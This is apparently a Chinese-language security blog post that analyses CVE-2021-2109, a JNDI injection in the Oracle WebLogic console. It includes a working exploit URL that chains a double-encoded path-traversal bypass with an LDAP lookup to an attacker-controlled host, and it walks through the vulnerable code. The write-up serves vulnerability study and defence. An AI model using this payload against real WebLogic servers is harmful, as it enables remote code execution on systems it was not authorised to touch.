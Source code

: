 # CVE-2021-2109 WebLogic-JNDI注入

  
  
&lt;!--more--&gt;  
## 0x01 环境搭建  
https://www.penson.top/article/av40  
手动添加  
`\server\lib\consoleapp\webapp\WEB-INF\lib\console.jar` 到依赖里面  
## 0x02 漏洞分析与复现  
`Oracle WebLogic Server 10.3.6.0.0, 12.1.3.0.0, 12.2.1.3.0, 12.2.1.4.0, 14.1.1.0.0。`  
拥有访问`/console/consolejndi.portal`页面的用户权限，或者存在`CVE-2020-14883`未授权访问漏洞。  
### 漏洞原理  
`Weblogic`的`/console/consolejndi.portal`接口可以调用存在JNDI注入漏洞的`com.bea.console.handles.JndiBindingHandle`类，从而造成`RCE`  
### 漏洞复现  
payload如下  
```  
http://127.0.0.1:7001/console/css/%252e%252e%252fconsolejndi.portal?_pageLabel=JNDIBindingPageGeneral&amp;_nfpb=true&amp;JNDIBindingPortlethandle=com.bea.console.handles.JndiBindingHandle(%22ldap://10.216.7;79:1389/k4gmvl;AdminServer%22)  
```  
本地启动一个服务  
![](https://picture-1304797147.cos.ap-nanjing.myqcloud.com/picture/202409041500659.png)
![](https://picture-1304797147.cos.ap-nanjing.myqcloud.com/picture/202409041500409.png)
### 漏洞分析  
根据`payload`分析，先从`consolejndi.portal`开启看起，`.portal`文件就类似于一个`servlet`，在`consolejndi.portal`中存在`JNDI Binding`操作的处理容器，如图  
![](https://picture-1304797147.cos.ap-nanjing.myqcloud.com/picture/202409041527096.png)
具体的处理逻辑在`PortalConfig/jndi/jndibinding.portlet`  
![](https://picture-1304797147.cos.ap-nanjing.myqcloud.com/picture/202409041528168.png)
在`com.bea.console.actions.jndi.JNDIBindingActioncom.bea.console.actions.jndi.JNDIBindingAction`类中，发现存在`execute`方法，存在JNDI注入漏洞  
![](https://picture-1304797147.cos.ap-nanjing.myqcloud.com/picture/202409041530621.png)
观察需要如何构造恶意payload，c是由`ConsoleUtils.initNamingContext(serverMBean);`赋值，而`serverMBean`是通过`domainMBean.lookupServer(serverName);`赋值，其中一系列关系如下  
![](https://picture-1304797147.cos.ap-nanjing.myqcloud.com/picture/202409041531738.png)
先是强转了一个JndiBindHandle类，这里面`getHandleContext()`的逻辑并不复杂，最终会调用`JndiBindingHandle`的构造函数。  
![](https://picture-1304797147.cos.ap-nanjing.myqcloud.com/picture/202409041626033.png)
如图，我们在paylad当中的一段被放进了构造函数的`type`和`objectIdentifier`中，而`&#34;ldapxxxx&#34;`这一段会被放在`components`中，由分号分隔  
`JNDIBindingPortlethandle=com.bea.console.handles.JndiBindingHandle(&#34;ldap://10.216.7;79:1389/k4gmvl;AdminServer&#34;)`  
继续往下看，想要进入JNDI注入的那一段代码，需要满足两个条件，一个是`serverMBean != null`，另一个是`c != null`，进到`serverMBean`看一下代码逻辑  
- `lookupServer` 是 `DommainMBean` 接口的方法，我们去看它的实现类  
![](https://picture-1304797147.cos.ap-nanjing.myqcloud.com/picture/202409041632731.png)
实际上这里是动态代理类调用的，会自动跟进到`weblogic.management.jmx.MBeanServerInvocationHandler#invoke`下，其中`method`的值为`weblogic.management.configuration.DomainMBean#lookupServer`，他的`method`代码逻辑在实现类当中，也就是`weblogic.management.configuration.DomainMBeanImpl#lookupServer`  
![](https://picture-1304797147.cos.ap-nanjing.myqcloud.com/picture/202409041633029.png)
走到do while的逻辑里面，返回var3，而不是返回null  
通过调试得到`var2`的值为`AdminServer`，这里没有其他值了，  
![](https://picture-1304797147.cos.ap-nanjing.myqcloud.com/picture/202409041639459.png)
所以要求我们此处输入的`var1`与`AdminServer`相同，回去看`var1`是什么，`var1`其实是`serverName`  
![](https://picture-1304797147.cos.ap-nanjing.myqcloud.com/picture/202409041642002.png)
发现`serverName`也是可控的  
![](https://picture-1304797147.cos.ap-nanjing.myqcloud.com/picture/202409041642585.png)
现在 `serverBean != null` 没问题，就要看 JNDI lookup 的地址是否可控。  
很明显JNDI lookup的地址也是可控的  
![](https://picture-1304797147.cos.ap-nanjing.myqcloud.com/picture/202409041644847.png)
进入到`JndiBindingHandle`类看一下，`set/getComponents()`的逻辑，先调用了`HandleImpl#getComponent`  
![](https://picture-1304797147.cos.ap-nanjing.myqcloud.com/picture/202409041645451.png)
跟进  
![](https://picture-1304797147.cos.ap-nanjing.myqcloud.com/picture/202409041646662.png)
主要逻辑就是以`;`分隔，就可控`context`与`binding`，就可以进行JNDI注入  
1、`;`号隔开JNDI地址  
2、serverName必须为`AdminServer`  
  

---

> Author: N1Rvana  
> URL: https://nlrvana.github.io/cve-2021-2109-weblogic-jndi-%E6%B3%A8%E5%85%A5/  

